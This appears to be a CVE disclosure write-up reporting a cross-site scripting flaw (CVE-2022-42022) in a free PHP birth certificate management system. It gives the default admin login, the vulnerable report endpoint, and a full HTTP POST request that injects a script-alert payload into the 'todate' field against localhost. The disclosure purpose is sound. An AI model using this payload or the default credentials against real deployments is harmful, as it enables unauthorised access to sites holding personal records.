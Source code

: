 # CVE-2022-42022 Online Birth Certificate Management System - XSS

A vulnerability classified as problematic was found in Online Birth Certificate Management System . This vulnerability affects unknown code. The manipulation of the argument admin/application-bwdates-reports-details.php leads to cross site scripting. The attack can be initiated remotely.

username:admin password:admin123 ----> {ip}/admin/application-bwdates-reports-details.php

Supplier： https://www.sourcecodester.com/php/15683/online-birth-certificate-management-system-php-free-download.html

/admin/application-bwdates-reports-details.php has XSS

> Payload: <sCrIpT>alert(1)</sCrIpT>

XSS because `$todate` can be closed

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-26/7.png)

## Payload

```sql
POST /CVE/OBCMS/admin/application-bwdates-reports-details.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 72
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: user_login=admin; userpassword=admin123; PHPSESSID=4okk1vi8496nglrc7ut709vl37
Origin: http://127.0.0.1
Referer: http://127.0.0.1/CVE/OBCMS/admin/between-dates-report.php
Sec-Ch-Ua: ";Not A Brand";v="99", "Chromium";v="94"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

fromdate=0001-01-01&submit=&todate=<sCrIpT>alert(1)</sCrIpT>
```

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-26/8.png)

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-26/9.png)

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-26/10.png)